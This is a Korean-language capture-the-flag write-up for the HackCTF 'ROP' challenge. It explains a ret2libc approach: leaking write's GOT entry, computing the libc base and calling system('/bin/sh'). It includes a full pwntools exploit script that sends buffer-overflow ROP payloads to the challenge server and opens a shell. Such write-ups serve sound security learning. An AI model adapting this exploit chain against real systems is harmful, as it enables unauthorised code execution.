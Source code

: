 ```yaml
---
layout: post
title:  "HacCTF ROP write-up"
date:   2020-02-03 19:45:55
image:  hackctf_rop.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] ROP

Date: Feb 03, 2020
Tags: report

![]({{ site.baseurl }}/images/write-up/pwnable_xyz/J_U_M_P/1.png)

### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled.png)

NX비트가 걸려있고 Partial RELRO가 걸려있다. GOT overwrite는 가능할 것으로 보인다

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%201.png)

바이너리를 실행시키면 바로 입력을 받고, Hello, World!를 출력하고 종료된다.

**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%202.png)

메인은 별게 없다. vulnerable_Function 함수가 하나 존재하고, write로 표준 출력을 통해 문자열을 출력시켜준다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%203.png)

vulnerable_function 함수를 보면 read함수가 끝이다. 해당 함수를 이용하여 ret를 덮을수 있을 것이다.

### 2. 접근방법

---

딱 보면 어떻게 할지 보인다.

1) ret를 덮어 libc 주소를 알아낸다

2) 알아낸 주소를 통해 libc base를 알아내고, 이를 이용하여 system 함수를 호출한다.

그럼 지금 필요한 것이 무엇인지 정리를 해보자.

- 아무 함수의 libc 주소

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%204.png)

현재 read, write, __gmon_start, __libc_start_main 이 4개가 끝이다. 따라서 write 함수로 write got를 인자로 넣어 write의 실 주소를 구해야 한다

- libc  base 주소

문제에서 libc.so.6 파일을 제공해줬으므로 이를 이용하여 write함수의 offset을 pwntools 기능을 통해 바로 구할수 있다. 따라서 위에서 구한 주소에서 offset을 빼서 base 주소를 구해야 한다

- /bin/sh 주소

read를 호출하게 하여 .bss 영역에 직접 입력을 하는 방법, 혹은 offset을 통해 libc에 저장된 /bin/sh 주소를 구하는 방식, 등을 이용하여 해당 문자열의 주소를 구해야 한다

- system 함수 주소

위에서 base 주소를 구했으므로, offset을 이용해야 구해야 한다.

추가적으로 디버깅을 할때 현 내 로컬 시스템의 llibc가 아닌, 주어진 libc를 링킹해서 디버깅을 진행하면 간편하다. 방법은 아래의 코드를 익스코드 위에 추가하면 된다.

    ...
    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    p = process("./rop", env=env, aslr=False)
    ...

### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level='DEBUG'
    p=remote("ctf.j0n9hyun.xyz",3021)
    #env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    #p = process("./rop", env=env, aslr=False)
    e=ELF("./rop")
    libc=ELF("./libc.so.6")
    #gdb.attach(p,""" b* 0x0804847E  """)
    
    write_plt=e.plt["write"]
    write_got=e.got["write"]
    read_plt=e.plt['read']
    
    #log.info("libc_start_main offset::"+hex(e.symbols['__libc_start_main']))
    log.info("write_plt::"+hex(write_plt))
    log.info("write_got::"+hex(write_got))
    #log.info("libc_base::"+hex(libc_base))
    
    payload="A"*0x88+"B"*4
    payload+=p32(write_plt)
    payload+=p32(0x08048509)
    payload+=p32(0x1)
    payload+=p32(write_got)
    payload+=p32(0x8)
    payload+=p32(0x0804844b)
    p.sendline(payload)
    #log.info(p.recv)
    #pause()
    write_addr=p.recv(4)
    #log.info(hex(write_addr))
    #pause()
    libc_base=u32(write_addr)-libc.symbols['write']
    
    payload2="A"*0x8c
    payload2+=p32(read_plt)
    payload2+=p32(0x08048509)
    payload2+=p32(0x0)
    payload2+=p32(0x0804a024)
    payload2+=p32(0x8)
    payload2+=p32(libc_base+libc.symbols['system'])
    payload2+="AAAA"
    payload2+=p32(0x0804a024)
    
    p.sendline(payload2)
    p.sendline("/bin/sh\x00")
    p.interactive()

### 4. 몰랐던 개념

---

처음에 read와 write는 syscall인데 libc 주소를 어케 구하지 라고 고민을 많이 했었다.

하지만 일반적으로 우리가 코딩할때 사용하는 read, write는 syscall이 아닌 libc에서 syscall read, write를 이용하여 wrapping한 read, write 였다.

따라서 이를 이용하여 똑같은 방식으로 libc leak을 진행하면 됬었다. 추후에 read, write 코드를 한번 봐야겠다.